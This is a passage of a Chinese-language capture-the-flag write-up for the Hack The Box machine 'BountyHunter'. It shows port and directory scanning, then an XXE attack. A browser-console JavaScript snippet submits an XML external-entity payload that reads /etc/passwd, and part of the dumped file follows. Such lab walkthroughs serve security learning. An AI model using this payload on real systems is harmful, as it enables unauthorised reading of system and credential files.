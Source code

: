 # BountyHunter Writeup
###### tags: `htb`
> URL : https://app.hackthebox.eu/machines/359

IP : 10.10.11.100

## Recon
- 凡事都從掃 Port 開始
    - `rustscan -a 10.10.11.100 -r 1-65535`
    - ![](https://i.imgur.com/aIXlags.png)
        - 有開 22 80 port
- 掃路徑
    - `python3 dirsearch.py -u http://10.10.11.100/`
    - 發現有一個 `/db.php`
        - 進去是空白的
    - 還有一個 `/resources/`
        - ![](https://i.imgur.com/QYLtVYA.png)
        - 其中 `README.txt` 裡面有一些小線索
            - ![](https://i.imgur.com/tCmklpN.png)

- 發現發送表單頁面有 XXE 漏洞
    - 直接用 js 在 F12 Console 發

    ```
    async function bountySubmit() {
        try {
            var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
            <!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
            <bugreport>
            <title>&b;</title>
            <cwe>456</cwe>
            <cvss>meow</cvss>
            <reward>321</reward>
            </bugreport>`
            let data = await returnSecret(btoa(xml));
            $("#return").html(data)
        }
        catch(error) {
            console.log('Error:', error);
        }
    }
    bountySubmit()
    ```
    - ![](https://i.imgur.com/U1evpQI.png)

    ```
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin